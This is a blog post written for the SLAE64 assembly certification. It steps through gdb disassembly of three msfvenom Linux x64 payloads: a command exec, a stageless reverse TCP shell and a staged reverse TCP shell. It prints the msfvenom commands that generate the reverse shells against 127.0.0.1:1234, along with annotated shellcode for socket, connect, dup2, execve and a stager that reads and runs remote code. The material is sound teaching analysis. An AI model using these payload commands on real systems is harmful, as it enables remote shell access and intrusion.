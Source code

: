 ```yaml
---
layout: post
title:  SLAE64 Assignment 5 - msfvenom shellcode analysis with gdb 
excerpt: analysis of code generated by msfvenom for payloads linux/x64/exec linux/x64/shell/reverse_tcp and linux/x64/shell_reverse_tcp
---
```


because the assignment asks to analyze using gdb, i will not use objdump, ndisasm or any other tool  
because i'm using gdb+gef 8.3, i can use the command "starti" that start the executable and interrupt at the very first call and analyze the code.


## exec
payload generated with: msfvenom -p linux/x64/exec -f elf CMD=whoami > 05-exec

the journey starts with a:
    gdb ./05-exec
    starti

i can now run vmmap, grep, and x/ to analyze the program   
vmmap for example show that 0x400000 is rwx  
and x/20i 0x400078 (where 0x400078 is starting point) shows us what looks like the main letting us to analyze without actually running it:
    gef➤  x/20i 0x400078
    ; this could be the syscall id, 0x3b is sys_execve
    => 0x400078:    push   0x3b
    ; and it's placed on rax
    0x40007a:    pop    rax
    ; basing on my former analysis, cdq will also zero edx. not useful to me in 64bit
    0x40007b:    cdq
    ; place in rbx the string /bin/sh (with a null!)
    0x40007c:    movabs rbx,0x68732f6e69622f
    ; push it on the stack
    0x400086:    push   rbx
    ; and put a pointer to /bin/sh in rdi. this is required for execve syscall
    0x400087:    mov    rdi,rsp
    ; rsi will hold arguments, therefore the code pushes -c to have
    ; executed: /bin/sh -c
    0x40008a:    push   0x632d
    0x40008f:    mov    rsi,rsp
    0x400092:    push   rdx
    ; i saw this call also on 32bit release, and i loved it. this fools
    ; linear disassembler. let's skip everything and do a x/20i 0x40009f
    0x400093:    call   0x40009f
    0x400098:    ja     0x400102
    0x40009a:    outs   dx,DWORD PTR ds:[rsi]
    0x40009b:    (bad)
    0x40009c:    ins    DWORD PTR es:[rdi],dx
    0x40009d:    imul   eax,DWORD PTR [rax],0x89485756
    0x4000a3:    out    0xf,al
    0x4000a5:    add    eax,0x0
    0x4000aa:    add    BYTE PTR [rax],al
    0x4000ac:    add    BYTE PTR [rax],al
    0x4000ae:    add    BYTE PTR [rax],al


let's explore 0x40009f:
    gef➤  x/20i 0x40009f
    ; the call moves RIP here. we see that something from rsi is pushed, rsi
    ; was -c. also rdi is pushed, and we know that rdi was a pointer to
    ; /bin/sh
    0x40009f:    push   rsi
    0x4000a0:    push   rdi
    ; then, a pointer to the command is placed at rsi that holds arguments
    0x4000a1:    mov    rsi,rsp
    ; we expect that /bin/sh -c is runt here, because we don't see anything
    ; else, so i'm running gdb step by step and i actually see that the
    ; stack starts with a string at the first push rsi. skip this analysis
    ; and move
    0x4000a4:    syscall

here is the stack when RIP is at 0x40009f:
> 0x00007fffffffe420│+0x0000: 0x0000000000400098  →  0x5600696d616f6877 ("whoami"?)        ← $rsp
> 0x00007fffffffe428│+0x0008: 0x0000000000000000
> 0x00007fffffffe430│+0x0010: 0x000000000000632d ("-c"?)   ← $rsi
> 0x00007fffffffe438│+0x0018: 0x0068732f6e69622f ("/bin/sh"?)      ← $rdi

and at 0x4000a1 (mov rsi,rsp):
> 0x00007fffffffe410│+0x0000: 0x00007fffffffe438  →  0x0068732f6e69622f ("/bin/sh"?)       ← $rsp
> 0x00007fffffffe418│+0x0008: 0x00007fffffffe430  →  0x000000000000632d ("-c"?)
> 0x00007fffffffe420│+0x0010: 0x0000000000400098  →  0x5600696d616f6877 ("whoami"?)
> 0x00007fffffffe428│+0x0018: 0x0000000000000000

we clearly see that the code executes /bin/sh -c whoami

reverse stageless
=================
payload generated with: msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f elf > 05-reversetcp_stageless  
journey starts with a:
    gdb ./05-reversetcp_stageless
    starti

reading the first 8 instructions, i see that the sys_socket syscall is created with an AF_INET STREAM (tcp).
    →   0x400078                  push   0x29
        0x40007a                  pop    rax
        0x40007b                  cdq
        0x40007c                  push   0x2
        0x40007e                  pop    rdi
        0x40007f                  push   0x1
        0x400081                  pop    rsi
        0x400082                  syscall

should be safe to run until 0x400082, so i just b *0x400082 and c

    just after the syscall, we can see another one is prepared:
    ; everything starts by saving rax to rdi, for socket syscall rax will
    ; hold socket file descriptor that is needed to interact with socket
    ; itself
    0x400084:    xchg   rdi,rax
    ; lot of nulls here, a basic "hex2ip" gives a 127.0.0.1 in little endian
    ; just the first 4 bytes are considered here of course for the ip, let's
    ; go down to see what could be that 0x2040002
    ; at 0x400097 i see that 0x2a is the syscallid, that is sys_connect.
    ; i therefore expect rdi as socketfd, rsi as sockaddr struct, and rdx as
    ; addrlen
    ; given that this hex will go to rsi, i can guess that it's the struct.
    ; so: last 0002 will be family, and remaining bytes (d204) the port in
    ; little endian again: 1234
    0x400086:    movabs rcx,0x100007fd2040002
    0x400090:    push   rcx
    0x400091:    mov    rsi,rsp
    ; as said, rds will hold address length, which is 0x10
    0x400094:    push   0x10
    0x400096:    pop    rdx
    ; and the real syscall sys_connect
    0x400097:    push   0x2a
    0x400099:    pop    rax
    0x40009a:    syscall

let's b *0x40009a to easily jump over already analyzed code and c  
following syscall is quite small, analyze line by line:
    ; put 3 in rsi and decrement: like push 0x2
    0x40009c                  push   0x3
    0x40009e                  pop    rsi
    0x40009f                  dec    rsi
    ; place 0x21 in rax, which is sys_dup2 syscall, and do the call for rsi 2 (STDERR)
    0x4000a2                  push   0x21
    0x4000a4                  pop    rax
    0x4000a5                  syscall
    ; this jump occurs, acting as loop by creating the needed fd also for STDOUT and STDIN
    0x4000a7                  jne    0x40009f

after that, we will x/20i 0x4000a9 to see following 20 instructions, that i'll analyze line by line:
    ; 0x3b is our beloved sys_execve, when she's in rax we know something
    ; good (or bad) will happen
    0x4000a9:    push   0x3b
    0x4000ab:    pop    rax
    ; zero stuff again
    0x4000ac:    cdq
    ; move /bin/sh to rbx, that holds binary that will be executed
    0x4000ad:    movabs rbx,0x68732f6e69622f
    0x4000b7:    push   rbx
    ; and place a pointer to rdi
    0x4000b8:    mov    rdi,rsp
    0x4000bb:    push   rdx
    0x4000bc:    push   rdi
    ; prepare arguments, as already discussed for 05-exec
    0x4000bd:    mov    rsi,rsp
    ; and do the call
    0x4000c0:    syscall

reverse staged
==============
payload generated with: msfvenom -p linux/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f elf > 05-reversetcp_staged  
i expect this payload to be more interesting to analyze because of the stager. let's go:

    gdb ./05-reversetcp_staged
    starti

analyze the first 20 instruction, to see what will happen:
    gef➤  x/20i 0x400078
    => 0x400078:    xor    rdi,rdi
    ; 0x9 syscall refers to sys_mmap, let's man it:
    ; void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
    ;                ^^ rdi,        ^^ rsi,   ^^ rdx,    ^^ r10,  ^^ r8,        ^^ r9);
    0x40007b:    push   0x9
    0x40007d:    pop    rax
    0x40007e:    cdq
    ; interesting move here, they split dx in dh+dl as saw at 0x40008b
    ; resulting protection will be 1007, that means rwx
    0x40007f:    mov    dh,0x10
    ; and to reuse code, they also put dh (0x10, but it's really 0x1000 so 4096 bytes)
    ; in rdx to specify length
    0x400081:    mov    rsi,rdx
    ; zero offset, to start from the very beginning of already xored rdi
    0x400084:    xor    r9,r9
    ; 0x22 flag could be like 0x20+0x2, that reading from grep -r \ MAP_ /usr/include/
    ; leads to PRIVATE and ANONYMOUS
    0x400087:    push   0x22
    0x400089:    pop    r10
    0x40008b:    mov    dl,0x7
    ; do the actual mmap
    0x40008d:    syscall

after the syscall, i will x/20i 0x40008d:
    ; if everythings ok, go on
    0x40008f:    test   rax,rax
    0x400092:    js     0x4000e5
    0x400094:    push   0xa
    0x400096:    pop    r9
    0x400098:    push   rax
    ; syscall id 0x29 is sys_socket, we can skim this because already
    ; analyzed for the stageless payload
    0x400099:    push   0x29
    0x40009b:    pop    rax
    0x40009c:    cdq
    0x40009d:    push   0x2
    0x40009f:    pop    rdi
    0x4000a0:    push   0x1
    0x4000a2:    pop    rsi
    0x4000a3:    syscall

let's x/20i 0x4000a5 to read the code after syscall:
    ; at 0x4000bd we see that the syscall will be sys_connect. struct is
    ; defined at 0x4000ac and points to 127.0.0.1:1234 as discussed for the
    ; stageless one
    0x4000a5:    test   rax,rax
    0x4000a8:    js     0x4000e5
    0x4000aa:    xchg   rdi,rax
    0x4000ac:    movabs rcx,0x100007fd2040002
    0x4000b6:    push   rcx
    0x4000b7:    mov    rsi,rsp
    0x4000ba:    push   0x10
    0x4000bc:    pop    rdx
    0x4000bd:    push   0x2a
    0x4000bf:    pop    rax
    0x4000c0:    syscall

    ; fast forward to 0x4000c2, and x/20i 0x4000c2:
    ; at 0x4000ce we see that the syscall will be sys_nanosleep
    ; this means that the code will sleep 5 seconds (defined at 0x4000d3)
    ; after the connect
    0x4000c2:    pop    rcx
    0x4000c3:    test   rax,rax
    ; if everithing's fine, go *after* an exit call
    ; else, loop using r9 as counter (set to 0xa at 0x400096) to retry the connection
    0x4000c6:    jns    0x4000ed
    0x4000c8:    dec    r9
    ; and jumps to 0x4000e5 as soon as the connection is established
    0x4000cb:    je     0x4000e5
    0x4000cd:    push   rdi
    0x4000ce:    push   0x23
    0x4000d0:    pop    rax
    0x4000d1:    push   0x0
    0x4000d3:    push   0x5
    0x4000d5:    mov    rdi,rsp
    0x4000d8:    xor    rsi,rsi
    0x4000db:    syscall

looks harmless again, because just waits for something and doesn't "elaborate". yet.
b *0x4000dd after the syscall and x/20i 0x4000dd:
    ; this code basically exit if there is an error, from 0x4000e5 is also used as
    ; neat exit before
    0x4000dd:    pop    rcx
    0x4000de:    pop    rcx
    0x4000df:    pop    rdi
    0x4000e0:    test   rax,rax
    0x4000e3:    jns    0x4000ac
    0x4000e5:    push   0x3c
    0x4000e7:    pop    rax
    0x4000e8:    push   0x1
    0x4000ea:    pop    rdi
    0x4000eb:    syscall
    ; if connect will not raises issue, we land here.
    ; this syscall isactually a read, because rax is 0x0 from last syscall
    ; she reads input from connection and put it at rsi, jumps to 0x4000e5 (neat exit)
    ; if there is any issue or jmp to rsi by executing the code
    0x4000ed:    pop    rsi
    0x4000ee:    push   0x26
    0x4000f0:    pop    rdx
    0x4000f1:    syscall
    0x4000f3:    test   rax,rax
    0x4000f6:    js     0x4000e5
    0x4000f8:    jmp    rsi

this code is not malicious per-se, everything depends on what she receives of course.

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
*SLAE64-1497*
